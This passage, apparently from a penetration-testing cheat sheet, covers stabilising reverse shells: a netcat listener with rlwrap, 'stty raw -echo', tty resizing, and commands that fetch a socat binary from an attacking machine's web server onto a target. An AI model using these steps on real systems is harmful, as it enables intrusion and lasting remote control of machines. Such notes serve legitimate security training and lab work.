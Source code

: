 ```
^Z 
```
>(press ctrl+Z to background the shell)
```
stty raw -echo; fg
```
>foregrounds the shell gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes

---

## rlwrap listener & stabilization
```
rlwrap nc -lvnp <port>
```
>starts listener on host

background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell. 

---

## soCat stabilization

use a webserver on the attacking machine inside the directory containing your socat binary 
```
~sudo python3 -m http.server 80
```
then, on the target machine, using the netcat shell to download the file.
```
get <LOCAL-IP>/socat -O /tmp/socat
```
```
~Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

---

## Change terminal tty size~

First, open another terminal and run 
```
stty -a
```
This will give you a large stream of output. Note down the values for "rows" and columns

Next, in your reverse/bind shell, type in:
```
~stty rows <number>
~stty cols <number>	
```
This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.
